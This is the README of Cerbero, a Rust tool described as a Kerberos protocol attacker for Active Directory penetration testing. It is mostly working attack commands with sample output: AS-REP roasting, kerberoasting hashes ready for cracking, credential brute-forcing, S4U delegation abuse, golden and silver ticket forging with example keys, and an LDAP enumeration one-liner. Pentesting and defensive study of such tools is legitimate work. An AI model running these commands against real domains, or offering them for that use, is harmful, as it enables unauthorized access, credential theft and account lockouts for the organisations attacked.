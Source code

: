 <!-- cargo-sync-readme start -->

# Cerbero

Kerberos protocol attacker. Tool to perform several tasks
related with Kerberos protocol in an Active Directory pentest.

## Installation

From crates:
```sh
cargo install cerbero
```

From repo:
```sh
git clone https://gitlab.com/Zer1t0/cerbero.git
cd cerbero/
cargo install --path .
```

## Commands
- [ask](#ask)
- [asreproast](#asreproast)
- [brute](#brute)
- [convert](#convert)
- [craft](#craft)
- [hash](#hash)
- [kerberoast](#kerberoast)
- [list](#list)

### Ask
The `ask` command allows to retrieve Kerberos tickets (TGT/TGS) from the KDC
(Domain Controller in Active Directory environment). Moreover also
perform requests to obtain tickets by using the S4U2Self and S4U2Proxy
Kerberos extensions.

Ask TGT:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -vv
INFO - Request TGT for Hades
INFO - Save Hades TGT in Hades.ccache
```

Ask TGS:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request ldap/dc01 TGS for Hades
INFO - Save Hades TGS for ldap/dc01 in Hades.ccache
```

Perform S4u2self:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Save Zeus S4U2Self TGS for Hades in Hades.ccache
```

Perform S4u2proxy:
```shell
$ cerbero ask -u under.world/Hades -p 'IamtheKingofD34d!!' -i Zeus -s ldap/under.world -vv
WARN - No TGT found in Hades.ccache: Unable to read the file 'Hades.ccache': No such file or directory (os error 2)
INFO - Request TGT for Hades
WARN - No Zeus S4U2Self TGS for Hades found
INFO - Request Zeus S4U2Self TGS for Hades
INFO - Request ldap/under.world S4U2Proxy TGS for Zeus
INFO - Save Zeus S4U2Proxy TGS for ldap/under.world in Hades.ccache
```


### AsRepRoast
`asreproast` can be used to discover users that do not require
pre-authentication and retrieve a ticket to crack with hashcat or john.

Check many users:
```shell
cerbero asreproast under.world users.txt
```

Check many users with weak RC4 cipher (easier to crack):
```shell
cerbero asreproast under.world users.txt --cipher rc4
```

### Brute
`brute` performs TGTs requests in order to discover user credentials
based on the KDC response. This bruteforce technique allows you to
discover:
+ Valid username/password pairs
+ Valid usernames
+ Expired passwords
+ Blocked or disabled users

This attack should be performed carefully since can block user
accounts in case of perform many incorrect authentication attemps
for the same user.

Test many users and passwords:
```shell
cerbero brute under.world users.txt passwords.txt
```

Test one user and many passwords:
```shell
cerbero brute under.world Zeus passwords.txt
```

Test many users and one password:
```shell
cerbero brute under.world users.txt Olympus1234
```

Test one user and one password:
```shell
cerbero brute under.world Zeus Olympus1234
```

### Convert
`convert` ticket files between krb (Windows) and
ccache (Linux) formats.

Convert ccache to krb:
```shell
$ cerbero convert -i anakin.ccache -o anakin.krb -vv
INFO - Read anakin.ccache with ccache format
INFO - Detected krb format from output file extension
INFO - Save anakin.krb with krb format
```

Convert krb to ccache:
```shell
$ cerbero convert -i anakin.krb -o anakin.ccache -vv
INFO - Read anakin.krb with krb format
INFO - Detected ccache format from output file extension
INFO - Save anakin.ccache with ccache format
```
### Craft
To `craft` golden and silver tickets.

Craft a golden ticket (by using the `krbtgt` AES256 key):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --aes fed0c966ff7f88d776bb35fed0f039725f8bbb87017d5b6b76ee848f25562d2c -vv
INFO - Save kratos TGT in kratos.ccache
```

Craft a silver ticket (for the service `cifs` hosted by the machine `styx`):
```shell
$ cerbero craft -u under.world/kratos --sid S-1-5-21-658410550-3858838999-180593761 --ntlm 29f9ab984728cc7d18c8497c9ee76c77 -s cifs/styx,under.world -vv
INFO - Save kratos TGS for cifs/styx.under.world in kratos.ccache
```

### Hash
Calculate the Kerberos keys (password hashes) from the user password.

Calculate RC4 key (NT hash):
```shell
$ cerbero hash 'IamtheKingofD34d!!'
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
```

Calculate all the keys:
```shell
$ cerbero hash 'IamtheKingofD34d!!' -u under.world/Hades
rc4:86e0a04f7a44ed4d4a7eaf2ee977c799
aes128:fe165dec904772a90a177069e4ea7019
aes256:1304965c35176aeb72e1ae5fdd6c2fe2e901af7223cb75f5eaac25ad667136e7
```

### Kerberoast
To format encrypted part of tickets in order to be cracked by hashcat or john.

You need to provide a file with the user services. Each line of the file
must have one of the following formats:
* `user`
* `domain/user`
* `user:spn`
* `domain/user:spn`

When a service [SPN](https://en.hackndo.com/service-principal-name-spn/)
is not specified, then a
[NT-ENTERPRISE principal](https://swarm.ptsecurity.com/kerberoasting-without-spns/)
is used. This can also be useful to bruteforce users with services.

An example file is the following:
```rust
sara
jack:HTTP/webserver
cake.com/john
cake.com/peter:HTTP/peter-pc
```

By using that file you could obtain a result like the following:
```shell
$ cerbero kerberoast u contoso.local/jaime -p Jama1234! -s /tmp/users.txt
$krb5tgs$23$*sara$CONTOSO.LOCAL$sara@contoso.local*$637b06b244ad69bf30d9b0a956c6143....5f69271
$krb5tgs$23$*jack$CONTOSO.LOCAL$HTTP/webserver*$8723987493798178273879856c6....ab78677
$krb5tgs$23$*john$CAKE.COM$john@CAKE.COM*$87687619876bde9879879879....1111111
$krb5tgs$23$*peter$CAKE.COM$HTTP/peter-pc*$2c77d95792f1393d3f25aec157823....4f6085f
```

To get a list of users with services you can use `ldapsearch`:
```shell
ldapsearch -h 192.168.100.2 -b "dc=contoso,dc=local" -w Vader1234!  -D "Anakin@contoso.local" "(&(samAccountType=805306368)(servicePrincipalName=*)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" samaccountname | grep -i samaccountname: | cut -d ' ' -f 2 | tee users.txt
```

### List
`list` shows the tickets information of a credentials file. Similar
to `klist` command.

```shell
$ cerbero list hades.ccache
Ticket cache (ccache): FILE:hades.ccache

Hades@UNDER.WORLD => krbtgt/UNDER.WORLD@UNDER.WORLD
Valid starting: 01/12/2021 12:08:09
Expires: 01/12/2021 22:08:09
Renew until: 01/19/2021 12:08:09
Flags: 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
Etype (skey, tkt): 18 -> aes256-cts-hmac-sha1-96, 18 -> aes256-cts-hmac-sha1-96
```

## Credits
This work is based on great work of other people:
- [Impacket](https://github.com/SecureAuthCorp/impacket) of Alberto Solino [@agsolino](https://github.com/agsolino)
- [Rubeus](https://github.com/GhostPack/Rubeus) of Will [@harmj0y](https://twitter.com/harmj0y) and Elad Shamir [@elad_shamir](https://twitter.com/elad_shamir)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) of [@gentilkiwi](https://twitter.com/gentilkiwi)

<!-- cargo-sync-readme end -->
